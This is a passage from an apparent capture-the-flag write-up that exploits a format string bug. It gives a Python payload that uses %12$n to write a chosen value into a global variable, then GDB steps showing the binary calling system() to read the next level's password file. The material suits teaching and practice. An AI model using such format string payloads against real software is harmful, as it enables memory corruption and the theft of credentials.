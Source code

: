 Expected output should show the address `0x08049810` around the 12th position on the stack. This allows us to use `%12$n` to perform our write.

---

### Step 4: Attempt Controlled Write Using `%n`

We want to write the value `0x1025544` (decimal `16930116`) using `%n`.

The payload format:

```bash
python -c 'print "\x10\x98\x04\x08" + "%16930112d" + "%12$n"' > /tmp/exploit
```

Note: 4 bytes are already printed due to the address. We subtract those from the total padding.

---

### Step 5: Validate Exploit in GDB

Place breakpoints to monitor state changes:

```gdb
(gdb) break *0x0804848d   # After printf(), before m is checked
(gdb) break *0x08048499   # system() call
(gdb) run < /tmp/exploit
```

When hitting the first breakpoint, inspect:

```gdb
(gdb) x/wx 0x08049810
0x8049810 <m>:  0x1025544
```

Success: the `%n` wrote the correct value into `m`.

Continue execution:

```gdb
(gdb) continue
```

You should hit the second breakpoint:

```gdb
Breakpoint 2, 0x08048499 in n ()
```

Inspect the argument:

```gdb
(gdb) x/s 0x08048590
0x8048590:  "/bin/cat /home/user/level5/.pass"
```

This confirms that the binary will now execute `system("/bin/cat /home/user/level5/.pass")`.

---
